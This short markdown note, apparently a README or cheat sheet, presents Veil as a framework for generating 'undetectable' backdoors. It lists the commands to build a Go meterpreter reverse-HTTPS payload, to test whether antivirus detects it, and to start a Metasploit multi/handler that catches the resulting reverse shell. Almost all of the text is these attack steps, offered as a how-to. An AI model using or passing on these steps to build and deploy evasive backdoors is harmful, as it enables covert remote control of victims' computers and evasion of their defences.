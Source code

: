 # VEIL

Veil is a framework for generating __undetectable__ backdoors.

## Creating demo payload

```
veil
> list > Evasion > list (see payloads)
> go/meterpreter/rev_https.py (example)
```

You can validate payload detection through _NoDistribute_ utility.

## Listening for connections with Metasploit

```
msfconsole
use exploit/multi/handler
show options
set PAYLOAD windows/meterpreter/reverse_https
```